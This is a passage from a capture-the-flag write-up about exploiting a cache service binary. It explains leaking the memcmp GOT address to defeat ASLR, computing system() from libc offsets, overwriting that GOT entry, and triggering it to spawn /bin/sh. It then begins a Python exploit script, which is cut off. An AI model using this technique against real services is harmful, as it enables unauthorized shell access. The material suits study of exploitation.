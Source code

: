 Aha! Hints! Actually, that page spells out exactly what we need to do. I decided to follow it, also because of the very specific mention of the address of `memcmp`, which we need to defeat ASLR. Using the same read memory trick, we grab the address of `memcmp`, which is stored at `0x804b014`. Using this address, we can calculate system by subtracting 0x142870 and adding 0x40100, the address of system in the supplied libc.so.6. Then, we need to write that value to `0x804b014` by doing a cache_set call. Finally, we need to trigger `memcmp`, which now actually calls `system`. Oof! This turned out to be less-than-trivial, mostly because of differences in the address of memcmp on my local box. Finally, I worked out the following script (hopefully with enough comments to make sense of what's going on):

```python
#!/usr/bin/python
import struct
import socket
import telnetlib

def pack4(v):
    """
    Takes a 32 bit integer and returns a 4 byte string representing the
    number in little endian.
    """
    assert 0 <= v <= 0xffffffff
    # The < is for little endian, the I is for a 4 byte unsigned int.
    # See https://docs.python.org/2/library/struct.html for more info.
    return struct.pack('<I', v)

def unpack4(v):
    """Does the opposite of pack4."""
    assert len(v) == 4
    return struct.unpack('<I', v)[0]

CACHE_GET = 0
CACHE_SET = 1

kNotFound = 0x0
kFound = 0x1
kCacheFull = 0x2

def write_string(f, s):
    f.write(pack4(len(s)))
    f.write(s)

def read_string(f):
    size = unpack4(f.read(4))
    return f.read(size)

def cache_get(f, key):
    f.write(chr(CACHE_GET))
    write_string(f, key)

    status = ord(f.read(1))
    if status == kNotFound:
        return None
    assert status == kFound

    return read_string(f)

# We need this modified function, because once we hit system('/bin/sh'),
# there will be no more data sent back in the way that the original 
# function expects. This causes it to b0rk.
def cache_get2(f, key):
    f.write(chr(CACHE_GET))
    write_string(f, key)
   
```